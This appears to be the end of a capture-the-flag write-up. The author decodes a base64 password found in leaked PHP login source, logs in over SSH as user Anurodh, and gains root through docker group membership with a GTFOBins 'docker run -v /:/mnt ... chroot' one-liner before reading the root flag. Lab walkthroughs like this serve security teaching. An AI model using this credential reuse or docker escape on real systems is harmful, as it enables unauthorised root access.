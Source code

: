 ```html
				Enter the OTP: <input type="number" name="otp">
				<input type="submit" name="submitOtp" value="Submit">
			</form>
		<?php	mail($email,"OTP for authentication",$random);
			if(isset($_POST["submitOtp"]))
				{
					$otp = $_POST["otp"];
					if($otp == $random)
					{
						echo "Welcome Anurodh!";
						header("Location: authenticated.php");
					}
					else
					{
						echo "Invalid OTP";
					}
				}
 		}
		else
		{
			echo "Invalid Username or Password";
		}
        }
?>
</html>
```

There is a reference to the user "Anurodh", and a password whose base64 encoding is: **IWQwbnRLbjB3bVlwQHNzdzByZA==**. 

I decoded the above:
	
```
echo IWQwbnRLbjB3bVlwQHNzdzByZA== | base64 -d

!d0ntKn0wmYp@ssw0rd
```

I tried to SSH into Anurodh's account using the above credentials. It worked! I am now user Anurodh!

I checked to see what group I was in using the **id** command:
	
```
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

Interesting, I am in the "docker" group. I looked up a docker exploit on [GTFGBins](https://gtfobins.github.io/gtfobins/docker/#shell):
	
I found this one:
	
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sha
```

Now after running the above command, I am now root!
	
I looked in the **/root** directory, and found this:
	
```
proof.txt
```

Looked at the contents:
	
```
{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
```

And that is the root flag! Thank you very much, I hope you found this helpful!
